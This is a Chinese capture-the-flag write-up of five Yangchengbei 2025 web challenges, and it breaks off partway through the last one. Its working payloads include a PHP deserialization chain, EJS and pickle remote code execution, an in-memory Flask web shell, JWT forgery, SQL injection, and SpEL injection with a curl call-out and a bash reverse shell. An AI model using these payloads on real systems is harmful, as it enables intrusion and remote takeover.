羊城杯 2025 Web Writeup
定榜第二

ez_unserialize
<?php
error_reporting(0);
highlight_file(__FILE__);
class A {
public $first;
public $step;
public $next;
public function __construct() {
$this->first = "继续加油！";
}
public function start() {
echo $this->next;
}
}
class E {
private $you;
public $found;
private $secret = "admin123";
public function __get($name){
if($name === "secret") {
echo "<br>".$name." maybe is here!</br>";
$this->found->check();
}
}
}
class F {
public $fifth;
public $step;
public $finalstep;
public function check() {
if(preg_match("/U/",$this->finalstep)) {
echo "仔细想想！";
}
else {
$this->step = new $this->finalstep();
($this->step)();
}
}
}
class H {
public $who;
public $are;
public $you;
public function __construct() {
$this->you = "nobody";
}
public function __destruct() {
$this->who->start();
}
}
class N {
public $congratulation;
public $yougotit;
public function __call(string $func_name, array $args) {
return call_user_func($func_name,$args[0]);
}
}
class U {
public $almost;
public $there;
public $cmd;
public function __construct() {
$this->there = new N();
$this->cmd = $_POST['cmd'];
}
public function __invoke() {
return $this->there->system($this->cmd);
}
}
class V {
public $good;
public $keep;
public $dowhat;
public $go;
public function __toString() {
$abc = $this->dowhat;
$this->go->$abc;
return "<br>Win!!!</br>";
}
}
unserialize($_POST['payload']);
?>
签到 PHP 反序列化不解释，exp
<?php
$target = $argv[1];
$cmd = $argv[2];
class A { public $first; public $step; public $next; }
class E { public $found; }
class F { public $fifth; public $step; public $finalstep; }
class H { public $who; public $are; public $you; }
class V { public $good; public $keep; public $dowhat; public $go; }
$f = new F(); $f->finalstep = 'u';
$e = new E(); $e->found = $f;
$v = new V(); $v->dowhat = 'secret';
$v -> go = $e;
$a = new A(); $a->next = $v;
$h = new H(); $h->who = $a;
$payload = urlencode(serialize($h));
echo $payload;
staticNodeService
任意 PUT 写文件，文件内容 base64 解密
app.put('/*', (req, res) => {
const filePath = path.join(STATIC_DIR, req.path);
if (fs.existsSync(filePath)) {
return res.status(500).send('File already exists');
}
fs.writeFile(filePath, Buffer.from(req.body.content, 'base64'), (err) => {
if (err) {
return res.status(500).send('Error writing file');
}
res.status(201).send('File created/updated');
});
});templ 模板名可控，没有任何校验
function serveIndex(req, res) {
var templ = req.query.templ || 'index';
var lsPath = path.join(__dirname, req.path);
try {
res.render(templ, {
filenames: fs.readdirSync(lsPath),
path: req.path
});
} catch (e) {
console.log(e);
res.status(500).send('Error rendering page');
}
}过滤器对任何以 js 结尾或包含 .. 都会被拦截
app.use((req, res, next) => {
if (typeof req.path !== 'string' ||
(typeof req.query.templ !== 'string' && typeof req.query.templ !== 'undefined')
) res.status(500).send('Error parsing path');
else if (/js$|\.\./i.test(req.path)) res.status(403).send('Denied filename');
else next();
})利用路径末尾添加 /. 的方式绕过过滤，/. 表示当前路径自动被消去
PUT /l1.ejs/. HTTP/1.1
{"content":"base64-payload"}EJS 会执行 <% %> 中的 JS，<%- %> 为不转义输出
<%- global.process.mainModule.require('child_process').execSync('ls / -liah') %>
total 84K
4457839 drwxr-xr-x 1 root root 4.0K Oct 11 16:17 .
4457839 drwxr-xr-x 1 root root 4.0K Oct 11 16:17 ..
4457828 -rwxr-xr-x 1 root root 0 Oct 11 16:17 .dockerenv
2099511 drwxr-xr-x 1 node node 4.0K Oct 11 16:38 App
1183943 lrwxrwxrwx 1 root root 7 Dec 2 2024 bin -> usr/bin
1310979 drwxr-xr-x 2 root root 4.0K Oct 31 2024 boot
667047127 drwxr-xr-x 5 root root 360 Oct 11 16:17 dev
4457829 drwxr-xr-x 1 root root 4.0K Oct 11 16:17 etc
2099441 -r-------- 1 root root 41 Oct 11 16:17 flag
1839683 drwxr-xr-x 1 root root 4.0K Dec 3 2024 home
1183944 lrwxrwxrwx 1 root root 7 Dec 2 2024 lib -> usr/lib
1183945 lrwxrwxrwx 1 root root 9 Dec 2 2024 lib64 -> usr/lib64
1183946 drwxr-xr-x 2 root root 4.0K Dec 2 2024 media
1311248 drwxr-xr-x 2 root root 4.0K Dec 2 2024 mnt
1840448 drwxr-xr-x 1 root root 4.0K Dec 3 2024 opt
1 dr-xr-xr-x 963 root root 0 Oct 11 16:17 proc
2099498 -rwsr-xr-x 1 root root 16K Dec 9 2024 readflag
2098857 drwx------ 1 root root 4.0K Dec 9 2024 root
1574207 drwxr-xr-x 1 root root 4.0K Dec 3 2024 run
1183947 lrwxrwxrwx 1 root root 8 Dec 2 2024 sbin -> usr/sbin
1311258 drwxr-xr-x 2 root root 4.0K Dec 2 2024 srv
2099470 -rwxr-xr-x 1 root root 148 Dec 9 2024 start.sh
1 dr-xr-xr-x 13 root root 0 Oct 11 06:26 sys
2099456 drwxrwxrwt 1 root root 4.0K Dec 9 2024 tmp
2097846 drwxr-xr-x 1 root root 4.0K Dec 2 2024 usr
1713954 drwxr-xr-x 1 root root 4.0K Dec 2 2024 var执行 /readflag
<%- global.process.mainModule.require('child_process').execSync('/readflag') %>
ez_blog
提示访客只能用管理账号登录，添加文章必须要管理员账户
 
b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x04User\x94\x93\x94)\x81\x94}\x94(\x8c\x02id\x94K\x02\x8c\x08username\x94\x8c\x05guest\x94\x8c\x08is_admin\x94\x89\x8c\tlogged_in\x94\x88ub.'字段大致意思为以下。
app.User(
id=2,
username='guest',
is_admin=False,
logged_in=True
)pickle opcode 用 0x89 表达 False，将其改为 0x88 绕过鉴权
import binascii
data = b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x04User\x94\x93\x94)\x81\x94}\x94(\x8c\x02id\x94K\x02\x8c\x08username\x94\x8c\x05guest\x94\x8c\x08is_admin\x94\x88\x8c\tlogged_in\x94\x88ub.'
print(binascii.hexlify(bytes(data)).decode())添加文章尝试 SSTI，但其不解析直接当纯文本输出了

import pickle, binascii
class RCE:
def __reduce__(self):
return (eval, (f"__import__('time').sleep(10)",))
print(binascii.hexlify(pickle.dumps(RCE())).decode())
import pickle, binascii
payload = r"""
from flask import current_app, request, make_response
import os
def _h(resp):
c = request.args.get('cmd')
return make_response(os.popen(c).read()) if c else resp
current_app.after_request_funcs.setdefault(None, []).append(_h)
"""
class RCE:
def __reduce__(self): return (exec, (payload,))
print(binascii.hexlify(pickle.dumps(RCE())).decode())
authweb
Spring Security + Thymeleaf + JJWT 项目结构如下
com/example/demo
├── AuthApplication.java #Spring Boot 启动类
├── SecurityConfig.java # Security 规则存储
├── InMemoryUserDetailsService.java
├── JwtTokenProvider.java # JJWT 校验
├── JwtAuthenticationFilter.java
├── Login.java
└── MainC.javaInMemoryUserDetailsService.java，两个预定义用户 user、admin，使用静态 HashMap 存储
@Service
public class InMemoryUserDetailsService
implements UserDetailsService {
private static final Map<String, User> USERS = new HashMap();
public UserDetails loadUserByUsername(String username) throws UsernameNotFoundException {
User user = (User)USERS.get(username);
if (user == null) {
throw new UsernameNotFoundException("User not found with username: " + username);
}
return user;
}
static {
USERS.put("user1", new User("user1", "{noop}password1", true, true, true, true, Arrays.asList(new SimpleGrantedAuthority("ROLE_USER"))));
USERS.put("admin", new User("admin", "{noop}adminpass", true, true, true, true, Arrays.asList(new SimpleGrantedAuthority("ROLE_ADMIN"))));
}
}requestMatchers 定义访问需要通过 hasRole(“USER”)，Spring Security会自动添加"ROLE_“前缀，所以检查的是 ROLE_USER。前面预定义用户代码中 admin 只拥有 ROLE_ADMIN 角色，并没有 ROLE_USER。这里鉴权校验逻辑上也有问题，有且仅有 user 能访问关键路由
@Configuration
public class SecurityConfig {
private final JwtTokenProvider jwtTokenProvider;
@Bean
public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
http.csrf().disable()
.authorizeHttpRequests(authz -> authz
.requestMatchers("/upload").hasRole("USER")
.requestMatchers("/").hasRole("USER")
.anyRequest().permitAll()
)
.addFilterBefore(
new JwtAuthenticationFilter(this.jwtTokenProvider, this.userDetailsService()),
UsernamePasswordAuthenticationFilter.class
)
.formLogin(form -> form
.loginPage("/login/dynamic-template?value=login")
.permitAll()
);
return (SecurityFilterChain)http.build();
}
}再看文件上传路由，imgFile 字段接收 MultipartFile 对象，包含上传内容；imgName 字段接收上传非拓展名文件名，随后创建目录并将文件写入。文件路径大致为 <工作目录>/uploadFile/<name>.html，很明显存在路径穿越，../filename 可以控制上传路径，最后会 return success 即渲染 success.html 返回，即使不懂其模板机制也可以从模糊测试中得出结论
@Controller
public class MainC {
@PostMapping(value={"/upload"})
public String upload(@RequestParam(value="imgFile") MultipartFile file, @RequestParam(value="imgName") String name) throws Exception {
File dir = new File("uploadFile");
if (!dir.exists()) {
dir.mkdirs();
}
file.transferTo(new File(dir.getAbsolutePath() + File.separator + name + ".html"));
return "success";
}
}假登录路由没写登录逻辑，也没对应的后台程序，但其具备动态模板渲染的功能，且 value 可控，文件上传与解析路径不在同一个目录，利用还需要猜测其解析路径
@Controller
@RequestMapping(value={"/login"})
public class Login {
@GetMapping(value={"/dynamic-template"})
public String getDynamicTemplate(@RequestParam(value="value", required=false) String value) {
if (value.equals("")) {
value = "login";
}
return value + ".html";
}
}Spring Security 还有注册一个 JWT 校验，每次请求都会先走 JwtAuthenticationFilter
.addFilterBefore(
(Filter)new JwtAuthenticationFilter(this.jwtTokenProvider,
this.userDetailsService()), UsernamePasswordAuthenticationFilter.class
)JwtAuthenticationFilter 类，先取 HTTP 头 Authorization 并取其中 Bearer 字段交给 jwtTokenProvider#validateToken 校验
public class JwtAuthenticationFilter
extends OncePerRequestFilter {
private final JwtTokenProvider jwtTokenProvider;
private final UserDetailsService userDetailsService;
public JwtAuthenticationFilter(JwtTokenProvider jwtTokenProvider, UserDetailsService userDetailsService) {
this.jwtTokenProvider = jwtTokenProvider;
this.userDetailsService = userDetailsService;
}
protected void doFilterInternal(HttpServletRequest request, HttpServletResponse response, FilterChain filterChain) throws ServletException, IOException {
String token;
String tokenHeader = request.getHeader("Authorization");
if (tokenHeader != null && tokenHeader.startsWith("Bearer ") && this.jwtTokenProvider.validateToken(token = tokenHeader.substring(7))) {
String username = this.jwtTokenProvider.getUsernameFromToken(token);
System.out.println(username);
UserDetails userDetails = this.userDetailsService.loadUserByUsername(username);
UsernamePasswordAuthenticationToken authentication = new UsernamePasswordAuthenticationToken((Object)username, null, userDetails.getAuthorities());
SecurityContextHolder.getContext().setAuthentication((Authentication)authentication);
}
filterChain.doFilter((ServletRequest)request, (ServletResponse)response);
}
}跟进 JwtTokenProvider，硬编码密钥 secret 写死在代码中
public class JwtTokenProvider {
private String secret = "25d55ad283aa400af464c76d713c07add57f21e6a273781dbf8b7657940f3b03";
public boolean validateToken(String token) {
try {
Jwts.parserBuilder().setSigningKey(this.secret.getBytes()).build().parseClaimsJws(token);
return true;
}
catch (Exception e) {
return false;
}
}
public String getUsernameFromToken(String token) {
Claims claims = (Claims)Jwts.parserBuilder().setSigningKey(this.secret.getBytes()).build().parseClaimsJws(token).getBody();
return claims.getSubject();
}
}直接用硬编码 JWT 伪造绕过鉴权
package org.example;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import javax.crypto.spec.SecretKeySpec;
import java.nio.charset.StandardCharsets;
import java.security.Key;
import java.util.Date;
public class Main {
public static void main(String[] args) {
String secret = "25d55ad283aa400af464c76d713c07add57f21e6a273781dbf8b7657940f3b03";
Key key = new SecretKeySpec(secret.getBytes(StandardCharsets.UTF_8), SignatureAlgorithm.HS256.getJcaName());
long now = System.currentTimeMillis();
String token = Jwts.builder()
.setSubject("user1")
.setIssuedAt(new Date(now))
.setExpiration(new Date(now + 3600_000L * 24))
.signWith(key, SignatureAlgorithm.HS256)
.compact();
System.out.println(token);
}}SpringResourceTemplateResolver，前缀一般是
spring.thymeleaf.prefix=classpath:/templates/
spring.thymeleaf.suffix=.html猜测其路径也是 template，Thymeleaf SpEL 模板注入先测试一下解析
<pre th:text="${1+1}">x</pre> 
<pre th:text="${@environment.getSystemEnvironment()}">x</pre>
[[${1+1}]]
[[${T(com.fasterxml.jackson.databind.util.ClassUtil).createInstance("".getClass().forName('org.spr'+'ingframework.expression.spel.standard.SpelExpressionParser'),true).parseExpression("T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('curl http://ip:port')").getValue()}]]
[[${T(com.fasterxml.jackson.databind.util.ClassUtil).createInstance("".getClass().forName('org.spr'+'ingframework.expression.spel.standard.SpelExpressionParser'),true).parseExpression("T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/7777 0>&1')").getValue()}]]
ezsignin
 
" OR 1=1) -- -
const express = require('express');
const session = require('express-session');
const sqlite3 = require('sqlite3').verbose();
const path = require('path');
const fs = require('fs');
const app = express();
const db = new sqlite3.Database('./db.sqlite');
/*
FLAG in /fla4444444aaaaaagg.txt
*/
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.use(session({
secret: 'welcometoycb2025',
resave: false,
saveUninitialized: true,
cookie: { secure: false }
}));
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');
const checkPermission = (req, res, next) => {
if (req.path === '/login' || req.path === '/register') return next();
if (!req.session.user) return res.redirect('/login');
if (!req.session.user.isAdmin) return res.status(403).send('无权限访问');
next();
};
app.use(checkPermission);
app.get('/', (req, res) => {
fs.readdir(path.join(__dirname, 'documents'), (err, files) => {
if (err) {
console.error('读取目录时发生错误:', err);
return res.status(500).send('目录读取失败');
}
req.session.files = files;
res.render('files', { files, user: req.session.user });
});
});
app.get('/login', (req, res) => {
res.render('login');
});
app.get('/register', (req, res) => {
res.render('register');
});
app.get('/upload', (req, res) => {
if (!req.session.user) return res.redirect('/login');
res.render('upload', { user: req.session.user });
//todoing
});
app.get('/logout', (req, res) => {
req.session.destroy(err => {
if (err) {
console.error('退出时发生错误:', err);
return res.status(500).send('退出失败');
}
res.redirect('/login');
});
});
app.post('/login', async (req, res) => {
const username = req.body.username;
const password = req.body.password;
const sql = `SELECT * FROM users WHERE (username = "${username}") AND password = ("${password}")`;
db.get(sql,async (err, user) => {
if (!user) {
return res.status(401).send('账号密码出错！！');
}
